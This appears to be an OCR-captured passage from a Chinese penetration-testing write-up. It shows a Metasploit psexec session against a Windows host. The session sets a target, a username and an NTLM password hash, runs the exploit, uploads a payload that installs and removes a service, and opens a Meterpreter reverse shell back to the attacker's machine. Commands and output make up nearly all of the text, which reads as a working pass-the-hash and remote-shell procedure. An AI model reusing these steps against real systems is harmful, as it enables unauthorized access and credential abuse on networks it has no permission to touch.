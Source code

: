     Module options (exploit/windows/smb/psexec):    
    
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    RHOST                       yes       The target address
    RPORT      445              yes       Set the SMB service port
    SHARE      ADMIN$           yes       The share to connect to, can be an admi                                              n share
    
    (ADMIN$,C$,...) or a normal read/write folder share
    SMBDomain  WORKGROUP        no        The Windows domain to use for authentic                                                ation
    SMBPass                     no        The password for the specified username
    SMBUser                     no        The username to authenticate as    
    
    Exploit target:    
    
    Id  Name
    --  ----
    0   Automatic    
    
    msf exploit(psexec) > set RHOST 192.168.0.254
    RHOST => 192.168.0.254
    msf exploit(psexec) > set SMBUser isosky
    SMBUser => isosky
    msf exploit(psexec) > set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537    
    
    SMBPass => 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
    msf exploit(psexec) > exploit
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Connecting to the server...
    [*] Authenticating to 192.168.0.254:445|WORKGROUP as user 'isosky'...
    [*] Uploading payload...
    [*] Created \UGdecsam.exe...
    [*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.254[\svcctl] ...
    [*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.254[\svcctl] ...
    [*] Obtaining a service manager handle...
    [*] Creating a new service (MZsCnzjn - "MrZdoQwIlbBIYZQJyumxYX")...
    [*] Closing service handle...
    [*] Opening service...
    [*] Starting the service...
    [*] Removing the service...
    [*] Closing service handle...
    [*] Deleting \UGdecsam.exe...
    [*] Sending stage (749056 bytes) to 192.168.0.254
    [*] Meterpreter session 1 opened (192.168.0.3:4444 -> 192.168.0.254:1877) at 2011-07-19 03:57:17 +0800
    

# 0x03 内网渗透

* * *

**10.42.0.54为target**
